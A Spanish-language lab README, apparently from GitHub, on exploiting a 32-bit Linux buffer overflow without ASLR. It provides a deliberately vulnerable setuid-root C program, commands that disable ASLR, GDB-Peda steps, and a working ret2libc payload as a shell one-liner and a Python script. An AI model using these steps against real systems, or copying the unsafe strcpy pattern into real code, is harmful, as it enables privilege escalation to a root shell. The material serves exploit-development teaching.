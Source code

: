 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linux/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilación

 ```bash
gcc -fno-stack-protector -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
```
## Desactivar el ASLR
```python
echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Muestra la dirección de system.

**Comando:**
 ```bash
 p system
 ```
 Muestra la dirección de exit.

**Comando:**
 ```bash
 p exit
 ```
 Muestra la dirección de /bin/sh.

**Comando:**
 ```bash
 find "/bin/sh" all
 ```
 
 ## Payload final
 ```bash
 payload = offset + system + exit + /bin/sh
 
 $(python -c 'print "A"*76 + "\x10\x33\xe5\xb7" + "\x60\x62\xe4\xb7" + "\x4c\x5d\xf7\xb7"')
```

## Script en python
```python
#/usr/bin/python2

from struct import pack

offset = 76

systemAdd = pack("<I", 0xb7e53310)
exitAdd = pack("<I", 0xb7e46260)
binshAdd = pack("<I", 0xb7f75d4c)

junk = "A"*76

payload = junk + systemAdd + exitAdd + binshAdd

print payload
```

**EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linux/)
